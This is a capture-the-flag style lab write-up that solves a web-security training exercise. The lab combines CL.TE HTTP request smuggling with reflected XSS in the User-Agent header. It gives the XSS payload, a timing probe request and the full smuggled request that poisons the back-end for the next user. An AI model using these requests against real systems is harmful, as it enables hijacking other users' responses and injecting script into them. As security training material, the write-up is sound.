




# Exploiting HTTP request smuggling to deliver reflected XSS
# Objective
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

The application is also vulnerable to reflected XSS via the `User-Agent` header.

To solve the lab, smuggle a request to the back-end server that causes the next user's request to receive a response containing an XSS exploit that executes `alert(1)`.

# Solution
## Analysis

### Confirming XSS vulnerability
Payload:
```
User-Agent: "/><script>alert(1)</script>
```

||
|:--:| 
| *User-Agent header is sent in hidden field while making comment* |
||
| *Successful reflected XSS* |


###  Determining what the front-end and back-end is using
`Time out` confirms `CL.TE` vulnerability.

```
POST / HTTP/1.1
Host: 0aa2004303e692b382763875004a00e9.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

3
nap
X
```

||
|:--:| 
| *Front-end is using CL* |
| *Back-end is using TE* |

## Exploitation
First request poisoned the back-end. Second (the same request) was added to the end of the previous request - the `GET <sth> HTTP/1.1` was ignored thanks to `Foo` header and smuggled request was executed.

```
POST / HTTP/1.1
Host: 0aa2004303e692b382763875004a00e9.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 82
Transfer-Encoding: chunked

0

GET /post?postId=8 HTTP/1.1
User-Agent: "/><script>alert(1)</script>
Foo: x
```

||
|:--:| 
| *Request was smuggled successfuly - XSS was smuggled* |


